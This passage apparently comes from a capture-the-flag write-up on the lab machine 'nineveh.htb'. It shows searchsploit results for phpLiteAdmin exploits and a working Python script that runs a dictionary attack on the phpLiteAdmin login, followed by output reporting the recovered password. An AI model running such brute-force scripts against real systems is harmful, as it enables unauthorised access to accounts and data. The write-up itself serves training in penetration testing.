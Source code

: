 Searching for vulnerabilities for this version of **phpLiteAdmin v1.9** I found the **Remote PHP Code Injection** exploit, that worked to exploit this version.

```console
root@kali:~# searchsploit phpliteadmin
------------------------------------------------- ---------------------------------
 Exploit Title                                   |  Path
------------------------------------------------- ---------------------------------
phpLiteAdmin - 'table' SQL Injection             | php/webapps/38228.txt
phpLiteAdmin 1.1 - Multiple Vulnerabilities      | php/webapps/37515.txt
PHPLiteAdmin 1.9.3 - Remote PHP Code Injection   | php/webapps/24044.txt
phpLiteAdmin 1.9.6 - Multiple Vulnerabilities    | php/webapps/39714.txt
------------------------------------------------- ---------------------------------
```

Since I do not know the password to login, I decided to write a python script to perform a dictionary attack on the password field.

```python
#!/usr/bin/env python3

import requests

url = "https://nineveh.htb"

requests.packages.urllib3.disable_warnings()

def phpliteBF(user):
    data = {
        'password':user,
        'remember':'yes',
        'login':'Log+In',
        'proc_login':'true'
        }

    try:
        r = requests.post(f"{url}:443/db/index.php", verify=False, data=data)
        return r.text
    except:
        pass

wordlist = open("/usr/share/seclists/Passwords/Common-Credentials/best1050.txt").read().split("\n")

for wd in wordlist:
    if "Incorrect password" in phpliteBF(wd):
        print(f"[-] Password => {wd}")
    else:
        print(f"[+] Password => {wd} found")
        break
```

I ran the script, and after a few minutes I found the password.

```console
root@kali:~/scripts# python3 phplitebf.py
...
[+] Password => password123 found
```
